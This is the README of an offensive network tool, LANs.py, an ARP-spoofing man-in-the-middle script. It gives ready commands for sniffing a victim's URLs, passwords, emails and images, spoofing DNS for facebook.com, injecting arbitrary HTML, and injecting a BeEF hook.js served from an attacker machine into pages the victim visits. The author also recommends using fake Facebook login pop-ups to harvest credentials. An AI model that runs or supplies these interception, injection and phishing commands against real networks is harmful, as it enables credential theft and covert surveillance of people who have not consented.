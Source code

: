 LANs.py
========

Multithreaded asynchronous packet parsing/injecting arp spoofer.

Individually arpspoofs the target box, router and DNS server if necessary. Displays all most the interesting bits of their traffic. Cleans up after itself.


Prereqs: Linux, scapy, python nfqueue-bindings, aircrack-ng, python twisted, BeEF (optional), wireless card capable of injection

Tested on Kali 1.0


Simplest usage:

```
python LANs.py
```

Because there's no -ip option this will arp scan the network, compare it to a live running promiscuous capture, and tell you the clients on the network that are sending the most packets, give Windows netbios names, then you can Ctrl-C and pick your target which it will then ARP spoof. Simple ARP spoofing.


Passive usage:

```
python LANs.py -u -d -p -ip 192.168.0.10
```

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-ip: target this IP address 

Easy to remember and will probably be the most common usage of the script: options u, d, p, like udp/tcp.


HTML injection:

```
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Inject a BeEF hook URL (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/) into pages the victim visits. Injecting HTML undetected is a dicey game, if a minor thing goes wrong then the user won't be able to open the page they're trying to view and they'll know something's up. This script is designed to forward packets if anything fails so during usage you may see lots of "[!] Injected packet for www.domain.com" but only see one or two domains on the BEeF
panel that the browser is hooked on. This is OK. If they don't get hooked on the first page just give it a few minutes. The goal is to be unintrusive. My favorite BEeF tools are in Commands > Social Engineering. Do things like create an official looking Facebook pop up saying the user's authentication expired and to re-enter their credentials.   

```
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first <head> and failing that injects prior to the first </head>.


Aggressive usage:
```
python LANs.py -v -d -p -n -na -set -dns facebook.com -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```

All options:

```
python LANs.py -h
```

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-ip: target this IP address 

-i INTERFACE: specify interface; default is first interface in `ip route`, eg: -i wlan0

-dns DOMAIN: spoof the DNS of DOMAIN. e.g. -dns facebook.com will DNS spoof every DNS request to facebook.com or subdomain.facebook.com

-n: performs a quick nmap scan of the target

-na: performs an aggressive nmap scan in the background and outputs to [victim IP address].nmap.txt

-v: show verbose URLs which do not truncate at 150 characters like -u

-b BEEF_HOOK_URL: copy the BeEF hook URL to inject it into every page the victim visits, eg: -b http://192.168.1.10:3000/hook.js

-c 'HTML CODE': inject arbitrary html code into pages the victim vists; include the quotes when selecting HTML to inject



Cleans the following on Ctrl-C:

  Turn off IP forwarding

  Flush iptables firewall

  Individually restore each machine's ARP table


To do:

Add ability to read from pcap file


Technical details:

This script uses python nfqueue-bindings wrapped in Twisted to feed packets to callback functions as well as drop or forward certain packets. From there scapy takes over to parse and inject. 

